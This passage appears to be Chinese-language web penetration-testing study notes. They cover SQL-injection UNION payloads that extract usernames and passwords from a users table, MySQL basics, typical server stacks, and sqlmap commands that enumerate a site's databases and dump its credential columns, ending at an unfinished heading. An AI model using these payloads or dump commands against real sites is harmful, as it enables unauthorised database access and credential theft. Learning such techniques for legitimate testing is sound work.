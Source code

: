 ```
id=-2' union select 1,group_concat(username),group_concat(password) from users --+
/*或者*/
?id=-2' union select 1,username,password from users limit 2,1 --+
```

## 用命令行操作数据库

```
mysql -u用户名 -p密码
show databases; 看到所有数据库的库名
use [库名]; 进入某个数据库
show tables; 查看数据库有多少表
select * from [表名]; 查看表中所有内容
select * from table1 where id < 13 limit 1,2;
select 1,2,3,4,5;
union 联合查询（limit会坏好事）
select * from table1 where id < 13 union select 1,2,3;
```

## Web渗透中目标不同的组合

windows+iis+asp/aspx(asp.net)+access/mssql

windows+apache+php+mysql= wamp（一般使用软件进行集成化搭建）

linux+apache/nginx+php+mysql = lamp/lnmp（有可能使用宝塔或者其他面板搭建）

linux+tomcat+java(jsp)+oracle/mysql

linux+nginx+python(django/flask/tornado/fastapi)/go(beego/gin)+mysql

------

## sqlmap（sql注入神器）

sqlmap的标准用法：

sqlmap -u [目标url] –dbs

获取目标网站的库名

发现security库

sqlmap -u [目标url] -D [security(库名)] –tables

获取库里的表

sqlmap -u [目标url] -D security -T users –columns

根据表 查看列

sqlmap -u [目标url] -D security -T users -C username,password –dump

取出id,username,password的所有内容

完整版命令：
